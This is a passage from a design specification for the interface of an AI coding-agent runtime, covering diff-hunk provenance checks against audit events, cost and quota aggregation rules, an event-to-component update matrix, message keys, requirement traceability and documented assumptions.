`step` is required, but if an older artifact lacks it the UI derives it: the `payload.step` of the latest `evt:model.call.start` with the same `env.execution_id` whose `seq` is lower than the first `evt:policy.decision` with `payload.call_id = call_id`.

### 5.5 UI consumption

1. DiffViewer loads `rpc:artifact.get {id}` (metadata including `files[].hunks[].provenance`) and, per file, `rpc:artifact.read {id, file}`.
2. It parses the file's unified diff into hunks and joins metadata by `(files[].path, hunks[].index)`; if the parsed `header` differs from the metadata `header`, the hunk shows `diff.provenance.unattributed` and the mismatch is logged (never guessed).
3. The chip reads "{task_key} · step {step} · {tool}" (+ "(+n)" when there are other contributors); the tooltip lists all contributors with their line counts.
4. Verification against the audit trail: the chip is `verified` only if an `evt:tool.exec.end` with `payload.call_id = call_id` and `ok = true` exists in the session and its `env.task_id` and `env.execution_id` match the metadata. Otherwise it shows `diff.provenance.unverified` with `triangle-alert` (H5: provenance must point to the tool calls that produced the artifact).
5. Activating the chip (click, or `Enter` on the focused hunk) calls `onOpenProvenance(ref)`: the timeline selects the TaskCard, expands its tool calls and scrolls the ToolCallRow for `call_id` into view (scroll anchoring per B05 §4), and the ContextPanel shows the call with its decision, the model call (`model_call_id`) and the routing decision (`routing_id` from `model.call.start`). Keyboard focus stays in the DiffViewer; `P` moves focus to that ToolCallRow (B05 §2.8).

## 6. Cost and usage aggregation

### 6.1 Inputs

`evt:model.call.start → payload.{model_call_id, routing_id, model_id, provider_id, tier, step}`, `evt:model.call.end → payload.{model_call_id, usage{input_tokens, output_tokens, cached_input_tokens, reasoning_tokens, billing_mode, quota{kind, units}, estimated_cost{amount, currency, basis}}, latency_ms, error}`, `evt:harness.session.end → payload.quota{kind, units}`, `evt:tool.exec.start`, `evt:task.state`, `evt:routing.decision → payload.budget_remaining_usd`, `evt:budget.changed → payload.to_usd`. All grouping keys are envelope fields (`env.task_id`, `env.execution_id`, `env.workflow_run_id`, `env.session_id`).

### 6.2 Formulas

| Quantity | Formula |
|---|---|
| Tokens per task | `Σ usage.input_tokens` (likewise output, cached, reasoning) over `model.call.end` with `env.task_id = T`; calls that ended in `error` still count if `usage` is present |
| Cost per task and currency | `Σ usage.estimated_cost.amount` over `model.call.end` with `env.task_id = T`, `estimated_cost ≠ null`, `amount ≠ null`, grouped by `estimated_cost.currency`. Amounts in different currencies are never added; each currency is a separate `Money` (PoC: USD only) |
| Cost per run / session | Sum of task costs by currency over tasks with `env.workflow_run_id = R` / `env.session_id = S` |
| Quota per task | §6.4 |
| Model calls per task | count of `model.call.start` with `env.task_id = T` |
| Tool calls per task | count of `tool.exec.start` with `env.task_id = T` (executed calls; denied calls counted separately as `denied` in C-08) |
| Session spent (USD) | Session cost in USD |
| Session remaining | latest `routing.decision.payload.budget_remaining_usd` in the session (runtime-authoritative) |

These are the WRD-09 §7 rule ("aggregates are computed from events, not stored") applied on the client; B08 memoizes them per `task_id` and updates incrementally on each `model.call.end`.

### 6.3 Money display rules

| Condition (per model call, then per task) | Display | Note |
|---|---|---|
| `billing_mode ∈ {none, gateway}` (T0 local, T1 company-hosted with no price) | `0.00` | `infra_untracked`: "local; infrastructure cost not tracked" (core §13.13) |
| `billing_mode = api_key` and `amount ≠ null` | amount, 2 decimals; `< 0.01` shown as "< 0.01"; details show 4 decimals and `basis` | none |
| `billing_mode = api_key` and `amount = null` | "–" | `price_unknown` (catalog has no price) |
| `billing_mode = harness_subscription` | "–" in the cost column; quota column shows units | `quota_billed` |
| Task mixes modes (fallback from T0 to T3) | Sum of known amounts; notes list every mode involved | all applicable |

A task shows `0.00` with `infra_untracked` only if every call was `none` or `gateway`; the PlanCard estimate follows the same rule using the plan task's chosen tier.

### 6.4 Quota units and de-duplication

Harness quota may be reported per model call (if the harness adapter emits `model.call.end` with `usage.quota`) and at session end (`harness.session.end.payload.quota`). Per `execution_id`: if a `harness.session.end` with `quota` exists, its units are used and `model.call.end` quota for that execution is ignored; otherwise the sum of `model.call.end.usage.quota.units` is shown with the note `estimate`. Units are grouped by `quota.kind` (e.g. `premium_requests`) and labelled with `cost.quota.<kind>`.

### 6.5 Durations

From `task.state` transitions of the task (ascending seq): `activeMs` = sum of intervals spent in `running`; `pausedMs` = sum of intervals in `waiting_for_approval` or `waiting_for_input` (these pause the wall-clock budget, CF-38); `wallMs` = end of the last terminal transition (or now) minus the first transition into `running`. The TaskCard header shows `activeMs` (the budgeted time); the tooltip and CostPanel show all three. While the task is `running`, the displayed value ticks once per second from the last transition's `env.ts` using the client clock corrected by the offset between the latest event `ts` and its local receipt time (B08).

### 6.6 Worked example (demo T1, internal workspace)

`plan` on `local/qwen-coder-32b` (T0): 6 model calls, `billing_mode: none` → cost `0.00` + `infra_untracked`. `implement` (T0) with the `npm install` approval: 18 tool calls executed, 1 approval. `verify` on the cheapest admissible model (cost-first; T0) → `0.00`. Pinned rerun on `anthropic/claude-sonnet` (T3): `implement` shows e.g. `0.41` USD with basis `catalog-2026-09`; session remaining from `routing.decision.budget_remaining_usd` (e.g. 4.52 of 5.00). Pinned rerun on `copilot` (T4): cost "–", quota "3 premium requests" from `harness.session.end`.

## 7. Event-to-component update matrix

Which persisted events (core §5) and notifications cause which components to re-render. B08 uses this to scope subscriptions and memoization; B05 §4 uses it for the layout-stability rules.

| Event / notification | Components updated |
|---|---|
| `runtime.start`, `runtime.stop` (Y) | AppShell (connection note), Banner BN-06 on version change |
| `policy.reload` (Y) | CapabilitySummaryChip (refresh), ExplainDrawer (current evaluation stale) |
| `provider.configured` (Y) | ProviderCard, ModelPicker (refetch), SetupWizard (confirmation), WorkspaceList (provider count), Banner BN-09 |
| `workspace.classification` (Y) | AppShell, WorkspaceRow, ModelPicker (refetch, pin invalidation), TimelineEntry notice, Banner BN-08 |
| `session.open`, `session.resume` | AppShell, CapabilitySummaryChip, Timeline |
| `session.request` | TimelineEntry (request), RequestComposer (confirm, pin) |
| `session.close` | AppShell (chain auto-verify, core §13.17) |
| `budget.changed` | CostPanel, Banner BN-02, RequestComposer, TimelineEntry notice |
| `workflow.start` | TimelineEntry (run), AppShell |
| `workflow.end` | TimelineEntry (result; at G2 accept per ID-01), AppShell, GateBar (G2 becomes the delivery bar), DeliveryBar, DiffViewer (read-only), RequestComposer, CancelControl |
| `workflow.gate.presented` | TimelineEntry (gate), GateBar, PlanCard, PendingApprovalBadge |
| `workflow.gate.resolved` | GateBar, PlanCard, PendingApprovalBadge, AppShell, DeliveryBar |
| `workflow.delivered` (NEW, ID-02) | TimelineEntry (delivery), DeliveryBar (done, Push availability), AppShell (chain auto-verify) |
| `task.state` | TaskCard, TimelineEntry, StatusBadge (taskState), PendingApprovalBadge (input), CostPanel (durations), GateBar (verify precondition, gate expiry), CancelControl, Banner BN-02 / BN-10, ApprovalCard (cancelled) |
| `routing.decision` | RoutingLine, TaskCard, PlanCard, CostPanel (remaining) |
| `routing.fallback` | RoutingLine, TimelineEntry notice (when `to = null`) |
| `model.call.start` | TaskCard (step counter), RoutingLine (model used), CostPanel (model calls) |
| `model.call.end` | CostPanel, TaskCard (usage, live region closes), RoutingLine (retry) |
| `context.assembled`, `context.compacted` | ContextPanel (context tab) |
| `policy.decision` | ToolCallRow, TaskCard (group summary), ExplainDrawer (recorded), ApprovalCard (follow-up allow) |
| `approval.requested` | ApprovalCard, PendingApprovalBadge, TaskCard, DeliveryBar (push) |
| `approval.resolved` | ApprovalCard, PendingApprovalBadge, TaskCard, DeliveryBar, ToolCallRow |
| `approval.revoked` | ApprovalCard (resolved row), TimelineEntry notice |
| `tool.exec.start`, `tool.exec.end` | ToolCallRow, TaskCard, CostPanel (tool calls), DeliveryBar (`git.push`), DiffViewer (provenance verification) |
| `sandbox.create`, `sandbox.destroy` | TaskCard (sandbox), AppShell (backend) |
| `sandbox.violation` | ToolCallRow (pinned), TaskCard |
| `proxy.connect`, `proxy.denied` | ToolCallRow (egress), ApprovalCard (held connection) |
| `secret.access` | EventLog only |
| `redaction` | TimelineEntry (request), ToolCallRow |
| `artifact.created`, `artifact.edited` | TaskCard (artifacts), PlanCard, DiffViewer, TestReport, DeliveryBar (defaults) |
| `worktree.create`, `worktree.checkpoint`, `worktree.remove` | TimelineEntry (worktree) |
| `harness.session.start`, `harness.hook`, `harness.session.end` | TaskCard (harness), ToolCallRow (harness tool), CostPanel (quota) |
| `chain.checkpoint` | AppShell (events since verify), EventLog |
| `stream.delta` (not persisted) | TaskCard live region, ToolCallRow (proposed) |
| every event | EventLog (if it matches filters) |

## 8. Message keys and B07 alignment

B07 owns the strings. Keys in this file use B07's names where B07 defines the concept: `effect.*`, `provenance.untrusted`, `tier.*`, `class.*`, `state.*`, `risk.*`, `scope.*` (`scope.<scope>.explain`, `scope.pattern`, `scope.disabled.{max,agent,risk_r5,taint}`), `approval.*` (`approval.title`, `approval.label.*`, `approval.what|why|extra.<variant>`, `approval.kbd_hint`, `approval.expires`, `approval.resolved.*`, `approval.revoke(d)`, `approval.proxy_refused_pending`, `approval.pending_badge`, `approval.jump`), `gate.g1.*`, `gate.g2.*`, `gate.failed_verification.*`, `delivery.*`, `confirm.*`, `resume.*`, `routing.*` (including `routing.reject.<code>` and `routing.picker.*`), `cost.*` (`cost.zero_local`, `cost.unknown`, `cost.quota`), `st.1` to `st.6` (banners BN-09, BN-01, BN-02, BN-03 map to `st.1`, `st.2`, `st.4`, `st.6`), `vendor.*` (ProviderCard terms notices; this file's `provider.terms.*` names map to B07 `vendor.<terms>.badge` and `vendor.<harness>.notice`), `empty.*`, `live.*`, `notify.*`.

Keys named in this file that B07 does not define at the time of writing are NEW requests to B07, grouped by prefix: `shell.*`, `workspace.*`, `composer.*`, `timeline.*`, `task.*`, `toolcall.*`, `redaction.count`, `plan.*` (editor labels and errors), `badge.aria`, `gate.reject*`, `gate.<gate_key>.aria`, `gate.approvedBy`, `gate.approvedWithEdits`, `gate.rejectedBy`, `gate.expired`, `context.*`, `diff.*`, `test.*`, `cost.title`, `cost.column.*`, `cost.budget.*`, `doctor.*` (UI chrome; check texts come from the runtime), `provider.*` (UI chrome), `setup.*`, `banner.BN-04/05/06/07/08/10.*`, `explain.*`, `events.*`, `cancel.*`, `delivery.push.needsCommit`, `delivery.error.<action>`, `delivery.acceptAnd.<action>`, `approval.hint.unfocused`, `approval.sending`, `approval.slow`, `approval.resolvedElsewhere`, `common.disconnected`.

## Traceability

| Design element | WRD source (doc §) | Requirement / invariant satisfied |
|---|---|---|
| Component set C-01 to C-27 | WRD-16 §13 (screens 1 to 7, states), core §11 | Seven screens, six states; H6 |
| Presentational contract, confirmed-state rule (§1.2) | WRD-11 §1 principles 1 and 3 | Show the decision before the effect; no success before the event |
| Model-written and repository text rendered as plain text with untrusted marker | WRD-16 §7.3, WRD-10 T-03 | BI-4 |
| ContextPanel context tab listing `context.assembled` sources with trust | WRD-09 §3 (context family), WRD-02 §10 | BI-4 visible per step |
| TaskCard live step counter, collapsed tool calls, pinned denials | WRD-16 §13 screen 2, §3 step 4, §4.3 | S1 to S3 visible (acceptance item 7); H2 |
| ToolCallRow decision-before-effect join by `call_id` | WRD-08 §3, WRD-09 §3, CF-40 | BI-1, H2 |
| ToolCallRow egress and violation rows | WRD-16 §10.1, §10.4 | BI-2 visible; S1, S3 |
| RoutingLine "Chosen: … because …" with candidate details | WRD-06 §6, §7, §11; WRD-16 §6.3 | BI-7; fallback never widens tier (D-19) |
| ModelPicker greyed options with reason codes | WRD-16 §3 step 7, §13 screen 2; core §12 | BI-7; acceptance item 8 |
| PlanCard with model used and why, estimate, edit mode | WRD-16 §3 step 3, §13 screen 3; WRD-07 §9; CF-32 | G1 review; plan edit rate metric (B09) |
| Plan intent note (file lists do not grant permissions) | WRD-08 §4, brief §3 | BI-5 |
| ApprovalCard what/who/why/scope/explain, scope limits | WRD-11 §2.3, WRD-08 §7, core §13.2 | F-PL-3, F-PL-4; R5 never beyond `once` |
| ApprovalCard never auto-dismisses; phases only from events | WRD-11 §2.3, WRD-16 §13 | Non-dismissable prompts |
| Held egress connection note | core §13.4, CF-20 | Egress approval semantics |
| PendingApprovalBadge set-difference count | WRD-11 §2.3 | Session-level pending badge |
| GateBar G1/G2, G2 only after verify succeeded | WRD-16 §8, H4, CF-24 | H4 |
| DiffViewer per-hunk provenance, verification against events | WRD-16 §13 screen 5, WRD-09 §5, CF-26, CF-37 | H5; provenance first-class |
| `code-diff` `files[].hunks[].provenance` per core §15 ID-11 (`execution_id`, `tool`, `model_call_id`, `attribution`, `contributors[]`, persisted write log) (§5) | WRD-09 §5, WRD-16 §7.4 | H5 (A04 alignment) |
| TestReport with before/after repair | WRD-16 §7.2, §7.4, §3 step 5; CF-25 | H4 |
| CostPanel tokens, quota, currency, durations, calls | WRD-01 F-AU-3, WRD-09 §7, WRD-05 §8, core §13.13 | F-AU-3 |
| Cost 0.00 with infrastructure note for T0/T1 | WRD-16 §3 steps 3 and 6, core §13.13 | Honest cost display |
| StatusBadge variants with icon + text + shape | WRD-11 §6, WRD-01 N-7, B06 §1 | WCAG 1.4.1 |
| Chain badge from `audit.verify` | WRD-09 §4, core §13.17 | H5, ST-6 |
| ProviderCard tier, auth mode, billing, vendor-terms notice, secret reference only | WRD-16 §6.1, §6.2, §13 screen 6; WRD-05 §8, §9; CF-21, CF-22 | BI-3; INV-7 (prohibited cannot be enabled) |
| SetupWizard four paths, secret handling | WRD-16 §13 states, CF-36, WRD-16 §10.5 | BI-3; ST-1 |
| RequestComposer pin select and read-only toggle | WRD-16 §13 screen 2, CF-43 | Pin within admission; T6 path |
| DoctorChecklist blocking, no unsandboxed fallback | WRD-11 §3, WRD-16 §13 screen 7 | ST-2; BI-2 |
| DeliveryBar post-run delivery, each a policy-checked host action confirmed by `workflow.delivered`; push only after commit/apply, R5 approval `once` | WRD-16 §9, §13 screen 5; core §13.9, §15 ID-01 to ID-03 | BI-1 (every delivery has a decision), R5 rule |
| G2 accept ends the run; G1 reject / G2 discard → `cancelled(rejected)`; G2 GateBar in the review panel | core §15 ID-01; B03 §13 | H4, run lifecycle |
| RoutingLine / BN-11 "Continue on {model} ({tier})" via `session.setPin` | WRD-06 §6 step 6, §7; core §15 ID-04, ID-16 | BI-7 (fallback never widens tier automatically); ST-3 |
| ApprovalCard question variant with `approval.resolve.answer` | WRD-16 §9 `approval.request`; core §15 ID-05 | BI-4 (answer tagged untrusted user input) |
| TestReport runtime-generated analysis for green verify | core §15 ID-09 | H4 at lower cost |
| EventLog verify and export | WRD-09 §4, §9; WRD-16 §11 | F-AU-4, H2, H5 |
| Every action with CLI equivalent | WRD-11 §1 principle 5, §4 | BI-6 |
| ExplainDrawer recorded versus current evaluation | WRD-08 §8, WRD-11 principle 3 | F-PL-4 |
| Accessibility notes per component | WRD-01 N-7, WRD-11 §6 | N-7; WCAG 2.2 AA (details in B05 §12) |

## Deviations and assumptions

- Hunk provenance fields (§5.2) and the persisted write log are adopted by core §15 ID-11; A04 is aligning its schema. §5.3's computation additions (`proc.exec` and co-located harness edits, deletion tombstones, majority primary) remain this file's specification for A10/A13/A14.
- NEW view-model and component-level identifiers: entry kinds (`run`, `request`, `worktree`, `task`, `gate`, `result`, `notice`), `ContextSelection`, `ApprovalCardPhase`, `GatePhase`, `ToolCallPhase`, Banner ids `BN-01` to `BN-10`, selector names (`selectTimeline`, `selectTaskView`, `selectApprovalCard`), `ActionPhase`.
- API fields used per core §15 ID-13 and A05: `workspace.list → workspaces[].{sandbox_level, capabilities_summary}`, `session.open → sandbox_backend`, `session.request → client_request_id`, `workflow.get → tasks[].{limits, max_attempts, execution.steps}`, `workflow.get → budget{session_usd, session_spent_usd, daily_usd, daily_spent_usd}`, `workflow.get → repository.remotes[]`, `workflow.get → deliveries[]`, `provider.models {classification}` without a session, `artifact.read {id: call_id}` for tool output and `artifact.read.side` for split diffs; NEW method `session.setPin` (ID-04); NEW event `workflow.delivered` (ID-02); approval `kind` including `question` and `approval.resolve.answer` (ID-05).
- Applied binding decisions (core §15): ID-01, ID-02, ID-03, ID-04, ID-05, ID-07, ID-08, ID-09, ID-11, ID-13, ID-14, ID-16 (see the components cited in Traceability).
- DEV (cross-deliverable, adopted from B03 §13): the G2 GateBar and DeliveryBar are sticky at the bottom of the review panel, not the timeline column (C-13).
- NEW: Banner BN-11 (ST-3 paused task with "Continue on …"), TimelineEntry kind `delivery`, GateBar `placement`, DeliveryBar `runOutcome`.
- DEV: WRD-11 §2.4 per-file accept/revert and §2.2 Explore and Integration entries are not designed (CF-37, CF-43, WRD-16 scope). Read-only questions (CF-43) appear as a single `summarize` TaskCard producing `repo-map`.
- DEV (cross-deliverable): B06 §9.2 says focus moves to a newly appearing ApprovalCard. B05 §3 decides that focus never moves automatically on `approval.requested`; B06's row should read "then it is announced (B05)". Flagged for alignment.
- ASM A-1: B08 provides a normalized event store with replay from `after_seq` and memoized selectors; components never call JSON-RPC.
- ASM A-2: Runtime-authored strings (`display.*`, `reason`, `explanation`, doctor texts) are English, redacted, and shown verbatim; B07 wraps them with labels, never rewrites them.
- ASM A-3: System-chain events the UI needs (`workspace.classification`, `provider.configured`, `policy.reload`, `runtime.*`) are received through a second subscription (`event.subscribe {session_id: "*", types: [...]}`) per B08.
- ASM A-4: Before a session is open (SCR-1, SCR-7), the sandbox backend is read from `system.doctor` checks in group `sandbox`; inside a session from `session.open → sandbox_backend`.
- ASM A-5: The sandbox level on SCR-1 is `workspace.list → sandbox_level` (A05); the effective level after `session.open`.
- ASM A-6: Request text limit is A05's `session.request` `text.maxLength` (32,768); the composer shows a counter from 90 %.
- ASM A-7: A retry countdown is shown only if the runtime supplies the delay (`task.state.payload.detail` or a future `retry_after_ms`); otherwise the line says "retrying (2/3)" without a countdown.
- ASM A-8: The envelope `actor` of `task.state` for agent tasks is the agent (`coder`, `verifier`) with its version.
- ASM A-10: Question approvals follow ID-05: `approval.requested` with `kind: question` (only kinds `action`, `gate`, `question`), answered with `approval.resolve {approval_id, decision: 'approve', answer}` (≤ 4,000 chars, redacted). `no_admissible_model`, `provider` and `budget` are `task.state` reasons shown by TaskCard, BN-11 / BN-02 and the badge's input segment, not approvals.
- ASM A-11: Full tool output is read with `artifact.read {id: <call_id>}`, which A05 defines as serving the `tool.exec.end.output_ref` blob.
- ASM A-9: The step denominator comes from `workflow.get → tasks[].limits.max_steps` (ID-13); if absent the counter shows no denominator; manifest values are never hard-coded.
- ASM A-12: `step` for a tool call is derived from the preceding `model.call.start`; A10 may add `step` to `policy.decision` and `tool.exec.start` payloads, which the UI would prefer.
- ASM A-13: Proxy events are joined to calls by `sandbox_id` and seq window; if A07 adds `call_id` to `proxy.connect`/`proxy.denied`, the join uses it.
- ASM A-14: `verify` may produce one `test-report` per profile (build, test); TestReport renders a list.
- ASM A-16, A-17: `routing.pins.allow_user_pin` and a refreshed capability summary are obtainable via `policy.list` and `session.open` after `policy.reload`.
- ASM A-18: Provider admissibility per classification in ProviderCard mirrors the PoC admission table (core §3); ModelPicker uses the live `provider.models` result instead.
- ASM A-19: "Detect local servers" calls `provider.test` on catalog entries `ollama` and `lmstudio` that the setup template pre-creates with `auth: none` (WRD-16 §6.1).
- ASM A-20: Superseded by ID-02: deliveries are confirmed by `workflow.delivered`, never by the RPC result alone.
- ASM A-21: Remotes come from `workflow.get → repository.remotes[]` (ID-13); free text is not offered.
- ASM A-22: Resolved by ID-11 (write log persisted per session).
- OQ candidates from B04: none outstanding after core §15 (the answer parameter and write-log persistence were resolved by ID-05 and ID-11).
